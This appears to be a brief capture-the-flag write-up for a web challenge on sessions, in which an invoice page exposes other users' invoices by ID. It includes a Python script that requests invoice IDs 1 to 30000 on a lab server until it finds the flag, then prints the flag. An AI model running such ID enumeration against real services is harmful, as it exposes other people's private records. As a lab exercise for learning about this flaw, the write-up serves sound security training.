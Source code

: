 # Web Cookies and Session Management Mind Your Own Business

We enter on the subscription page, then we fill in the credintials.
We observe after that after the creditential completion is good, the page redirect us to a invoice page.
If we change the invoice page index we then observe we get more invoicees but some of them are "Oops, no invoice".

So then we have to test all the invoices to check in which page we get the "SSS", which is at the page 10946. 


```py
import requests
import re


start = 1
end = 30000

session = requests.Session()

for invoice_id in range(start, end + 1):
    url = f"http://141.85.224.70:8085/invoice.php?invoice={invoice_id}"
    print(f"🔎 Verific {url}")

    try:
        response = session.get(url, timeout=5)
    except Exception as e:
        print(f"Eroare la {url}: {e}")
        continue


    if "Oops! Invoice not found!" in response.text:
        continue


    match = re.search(r"SSS\{.*?\}", response.text)
    if match:
        flag = match.group(0)
        print(f"\nFLAG la invoice={invoice_id}: {flag}\n")


        with open(f"invoice_{invoice_id}.html", "w", encoding="utf-8") as f:
            f.write(response.text)

        break
```

The found flag: **SSS{1ts_n0t_nic3_t0_sn00p_ar0und}**

